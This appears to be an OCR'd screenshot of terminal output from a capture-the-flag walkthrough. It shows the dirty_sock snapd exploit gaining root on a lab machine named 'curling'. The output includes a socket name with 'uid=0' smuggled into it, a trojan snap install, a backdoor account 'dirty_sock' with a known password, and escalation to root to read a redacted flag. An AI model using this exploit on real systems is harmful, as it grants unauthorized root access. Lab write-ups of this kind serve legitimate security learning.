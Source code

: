 ___ _ ____ ___ _ _ ____ ____ ____ _ _  
| \ | |__/ | \_/ [__ | | | |_/  
|__/ | | \ | | ___ ___] |__| |___ | \_  
(version 2)

//=========[]==========================================\\  
|| R&D || initstring (@init_string) ||  
|| Source || https://github.com/initstring/dirty_sock ||  
|| Details || https://initblog.com/2019/dirty-sock ||  
\\=========[]==========================================//

[+] Slipped dirty sock on random socket file: /tmp/wvjupqdeyv;uid=0;  
[+] Binding to socket file...  
[+] Connecting to snapd API...  
[+] Deleting trojan snap (and sleeping 5 seconds)...  
[+] Installing the trojan snap (and sleeping 8 seconds)...  
[+] Deleting trojan snap (and sleeping 5 seconds)...

********************  
Success! You can now `su` to the following account and use sudo:  
username: dirty_sock  
password: dirty_sock  
********************

floris@curling:/tmp$ su dirty_sock  
Password:  
To run a command as administrator (user "root"), use "sudo <command>".  
See "man sudo_root" for details.

dirty_sock@curling:/tmp$ sudo su  
[sudo] password for dirty_sock:  
root@curling:/tmp# cat /root/root.txt  
82c#########ZENSIERT#########64a  
root@curling:/tmp#